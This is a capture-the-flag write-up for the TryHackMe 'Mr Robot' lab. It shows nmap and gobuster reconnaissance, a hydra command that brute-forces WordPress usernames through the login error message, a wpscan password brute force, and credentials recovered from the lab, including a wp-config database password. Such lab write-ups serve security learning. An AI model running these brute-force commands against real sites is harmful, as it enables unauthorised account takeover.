 https://tryhackme.com/room/mrrobot


##################################
 			Cosmin Tibuleac | 20.12.2021
##################################

export IP=10.10.88.154


# Nmap:

*nmap -sC -sV -Pn -T4 -p- $IP | tee nmap.txt*

Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-20 07:09 EST
Stats: 0:01:40 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 45.34% done; ETC: 07:12 (0:02:01 remaining)
Stats: 0:01:40 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 45.43% done; ETC: 07:12 (0:02:00 remaining)
Stats: 0:02:04 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 58.30% done; ETC: 07:12 (0:01:28 remaining)
Stats: 0:02:04 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 58.45% done; ETC: 07:12 (0:01:27 remaining)
Nmap scan report for 10.10.88.154
Host is up (0.081s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE VERSION
22/tcp  closed ssh
80/tcp  closed http
443/tcp closed https

# Gobuster
*gobuster dir -u 10.10.25.140 --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee gobuster.log*

## Robots.txt
The website contains a robots.txt file:

![[Pasted image 20211221050142.png]]

We can download the dictionary file using wget: 

*wget http://10.10.25.140/fsocity.dic *


Since we have found wp-login.php, we can try to find the credentials for it:
The website will tell us whether the user is right or wrong: 

![[Pasted image 20211221050549.png]]

We can use Burp Suite to intercept the request to the website, so we can see the user and password's parameters: 

![[Pasted image 20211221050906.png]]


Now, we can craft a post form brute forcer for hydra: 

We will use the dictonary file provided by **fsociety**:

*hydra -V -L fsocity.dic -p 123 http://10.10.25.140 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid Username" | tee hydra.log*

We are using "123" as password because we are only interested in finding the username, since WordPress will let us know whether the username tried is right or wrong.

And pretty quickly, hydra has found a valid username: 

![[Pasted image 20211221052822.png]]

Now that we know the username, it's time to obtain the password. "wpscan" can help us with this.

First, since the dictionary list from **fsociety** is really big and contains some duplicates, we can sort it: 

*cat fsocity.dic| sort -u  | uniq > sorted-fsocity.dic*

For wpscan, we can use the following command: 

*wpscan --url http://10.10.25.140 --usernames Elliot --passwords sorted-fsocity.dic -t 100 *

In no time, wpscan will find the password: 

![[Pasted image 20211221074354.png]]

Elliot:ER28-0652



Linux version 3.13.0-55-generic (buildd@brownie) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.2 LTS
Release:	14.04
Codename:	trusty



-rwxr-x--- 1 bitnamiftp daemon 3756 Nov 14  2015 /opt/bitnami/apps/wordpress/htdocs/wp-config.php
define('DB_NAME', 'bitnami_wordpress');
define('DB_USER', 'bn_wordpress');
define('DB_PASSWORD', '570fd42948');
define('DB_HOST', 'localhost:3306');
define('WP_SITEURL', 'http://' . $_SERVER['HTTP_HOST'] . '/');
define('WP_HOME', 'http://' . $_SERVER['HTTP_HOST'] . '/');
define('FTP_USER', 'bitnamiftp');
define('FTP_HOST', '127.0.0.1');



SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

59 * * * * bitnami cd /opt/bitnami/stats && ./agent.bin --run -D


abcdefghijklmnopqrstuvwxyz - robot password.
